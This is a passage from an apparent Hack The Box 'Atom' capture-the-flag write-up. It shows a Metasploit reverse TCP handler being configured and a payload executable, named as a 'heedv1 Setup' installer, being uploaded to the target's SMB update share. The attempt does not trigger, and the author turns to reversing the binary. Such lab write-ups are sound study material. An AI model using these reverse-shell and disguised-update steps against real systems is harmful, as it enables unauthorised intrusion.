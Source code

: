 ```bash


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.167
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.167:9001
```

I then logged into the SMB server again and `put` my file:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ smbclient //10.10.10.237/Software_Updates
Enter WORKGROUP\mac's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Apr 21 21:00:02 2021
  ..                                  D        0  Wed Apr 21 21:00:02 2021
  client1                             D        0  Wed Apr 21 21:00:02 2021
  client2                             D        0  Wed Apr 21 21:00:02 2021
  client3                             D        0  Wed Apr 21 21:00:02 2021
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 12:18:08 2021

		4413951 blocks of size 4096. 1343700 blocks available
smb: \> cd client1
smb: \client1\> dir
  .                                   D        0  Wed Apr 21 21:00:43 2021
  ..                                  D        0  Wed Apr 21 21:00:43 2021

		4413951 blocks of size 4096. 1343670 blocks available
smb: \client1\> put "heedv1 Setup 1.0.1.exe"
putting file heedv1 Setup 1.0.1.exe as \client1\heedv1 Setup 1.0.1.exe (294.2 kb/s) (average 294.2 kb/s)
```

After a short wait, I didn't get a hit on my handler. So I figured this was not the appropriate trigger mechanism.

I spent a bit of time here trying to analyse the `.exe` in Ghidra. This didn't turn out to be necessary, and I eventually gave up on it - but [0xdf](https://0xdf.gitlab.io/2021/07/10/htb-atom.html#heed-re) did some good reversing which would have made the upcoming CVE easier to find.
